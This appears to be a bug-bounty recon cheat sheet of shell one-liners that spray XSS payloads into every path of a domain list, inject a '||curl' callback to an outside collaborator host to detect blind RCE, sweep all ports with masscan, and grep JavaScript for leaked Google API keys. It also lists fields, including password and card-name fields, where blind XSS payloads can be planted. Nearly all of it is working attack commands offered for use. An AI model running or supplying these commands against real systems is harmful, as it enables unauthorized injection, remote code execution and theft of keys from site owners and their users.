 1. Inject payload in every path and check xss
2. append fake paramters in every path and check xss vulnerability
3. made poc for you in your terminal

```
cat domains.txt|gau|egrep -v '(.js|.css|.svg|.jpeg|.jpg)'|grep -v '='|while read url; do dir=$(curl -s -L "$url/xss\"><"|egrep -o '(xss"|xss\\")') dir2=$(curl -s -L "$url/?xss\"><"|egrep -o '(xss"|xss\\")') ;echo -e "Target:\e[1;33m $url\e[0m""\n" "\e[1;32m Method1 -> $dir\e[0m [POC: $url/test\"><]""\n""\e[1;32m  Method2 -> $dir2\e[0m [POC: $url/?test\"><]";done | egrep '(Target|xss)'
```

#### Find Blind RCE with automation

```
cat domains.txt|assetfinder --subs-only|httprobe|gau|grep -Ev (.js|.png|.svg|.jpeg)|grep '='|qsreplace -a ' ||curl //burp-collaborator.burpcollaborator.net'|while read url; do rce=$(curl -s $url);echo -e "[RCE-test] $url";done
```

If you get Response of your burp collab! Boom RCE

#### Scan open ports of domain list using masscan

```
cat domains.txt | httpx -ip -silent| awk '{print $2}' | sed -e 's/\[//g' -e 's/\]//g' | tee ips.txt | while read url; do mass=$(sudo masscan --ports 0-65535 $url);echo -e "$url \n $mass";done
```

#### Easy way to find Path based XSS

```
cat domains.txt | gau | egrep -v '(=|.png|.svg|.jpg|.jpeg|.gif|.js|.js|.css)' | while read url; do dir=$(curl -s -L "$url/xss\"><"|grep 'xss"');echo -e "Target:\e[1;33m $url/\"><\e[0m""\n" "\e[1;32m$dir\e[0m";done
```

#### Where to look for Blind XSS

1. Review Forms
2. Contact Us pages
3. Password Field (you never know if the other side doesn't properly handle input and if your password is in view mode)
4. Address fields of e-commerce sites.
5. First or last name field while doing credit card payments
6. Set User-Agent to Blind XSS payload. You can do that easily from a proxy such as Burpsuite. And there are many more cases, but we would encourage you to read some reports to get a perfect knowledge, where other hackers are already applying these techniques and how you can use them in your program

#### Find Google map API keys in JS files & endpoints from Domains & Subdomains.

```
cat urls.txt | assetfinder|gau|egrep -v'(.png|.svg|.gif|.jpg|.jpeg|.txt|.ico|.css|\?|.pdf)'|while read url; do map=$(curl -s $url|grep 'AIza');echo -e "$url -> $map";done
```

